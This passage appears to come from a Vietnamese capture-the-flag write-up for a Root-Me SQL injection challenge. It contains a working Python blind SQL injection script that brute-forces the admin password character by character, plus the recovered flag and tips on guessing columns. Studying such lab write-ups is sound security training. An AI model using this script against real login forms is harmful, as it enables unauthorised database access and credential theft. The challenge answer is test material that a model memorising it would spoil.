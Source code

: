 ```python
import requests
import itertools as iter # Chạy 2 range (vùng giá trị) trên 1 vòng lặp for

query = "1' or substr((select password from users where username='admin'), "   
stringResult = ""

for j in range(1, 9):
    for i in iter.chain(range(48, 58), range(65, 91), range(97, 123)):
        username = query + str(j) +  ", 1) = '" + chr(i) + "' -- " 
        payload = {
            'username' : username,
            'password' : 123
        }
        request = requests.post('http://challenge01.root-me.org/web-serveur/ch10/', payload)
        if ('Welcome back' in request.text):
            if (j != 5):
                stringResult += chr(i) 
                print(chr(i) + " is valid. Current string: " + stringResult)
                break    
            else:
                stringResult += chr(i) 
                print(chr(i) + " is valid. Complete table's name: " + stringResult)
                break 
        else:
            print(chr(i) + " is not valid ! Continue ... ")
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161276489-fd02bfc0-4aea-4245-b3ba-5d606c440ca6.png"></p>

Cuối cùng !! Mình đã có được password của admin, là **e2azO93i**

> Lưu ý 1: Sau khi làm bài xong mình thấy có rất nhiều write-up dự đoán tên cột bằng cách xem request submit form là `username` và `password`. Nhưng mà chưa chắc đâu, mình cứ brute-force hết theo cách trên cho an toàn. Lỡ tham số submit lấy theo trường `name` của `form` khác với tên cột được lưu trong CSDL thì sao :))

> Lưu ý 2: Brute-force lâu thì có tối ưu code cách mấy cũng không làm giảm đáng kể thời gian chạy. Bởi vì đây là request/response để lấy dữ liệu nên chỉ cần hạn chế số lần gửi request, nói cách khác là giảm số trường hợp trong vòng lặp. Đến đây thì chắc ai cũng biết là ngoại trừ password ra thì các trường hợp vét ở trên mình chỉ cần quan tâm ký tự [a-z] thì sẽ cho ra kết quả nhanh hơn nhiều

Flag: **e2azO93i**

